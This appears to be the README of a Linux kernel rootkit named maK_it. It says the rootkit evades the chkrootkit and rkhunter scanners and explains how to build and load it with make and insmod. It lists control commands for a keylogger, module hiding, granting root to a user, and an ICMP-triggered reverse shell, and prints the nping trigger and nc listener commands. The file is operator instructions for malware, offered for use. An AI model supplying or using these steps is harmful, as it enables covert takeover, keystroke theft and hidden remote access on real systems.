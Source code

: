 maK_it-Linux-Rootkit

========================

This is a simple rootkit implementation for the project described
at the following location

https://web.archive.org/web/20190119045332/https://r00tkit.me/


This rootkit avoids both the chkrootkit & rkhunter scanners as intended.

It is fully compatible with the latest version of CentOS 6.5


To run simply run "make" in the folder with the Makefile.

install with 
insmod maK_it.ko

Remove with 
rmmod maK_it


===============
Demo Commands
===============
Echo any of the following into /dev/.maK_it


debug - turn /var/log/messages debug messages on or off.

keyLogOn - turn the keylogger on

keyLogOff - turn the keylogger off

modHide - hide the module (hidden by default in insmod)

modReveal - reveal the module (so you can rmmod it)

rootMe - give root privileges to user

shellUp - Turn on a packet sniffer for reverse shell icmp

shellDown - Turn off the packet sniffer daemon

To trigger the reverse shell, listen on a port of your choice
on your own machine. The shell will be returned if you send an 
icmp packet with the right trigger word, your ip/port.

Example: nping --icmp -c 1 -dest-ip 127.0.0.1 --data-string 'maK_it_$H3LL 127.0.0.1 31337'

A port listener can be simply opened on your machine using nc -l 31337
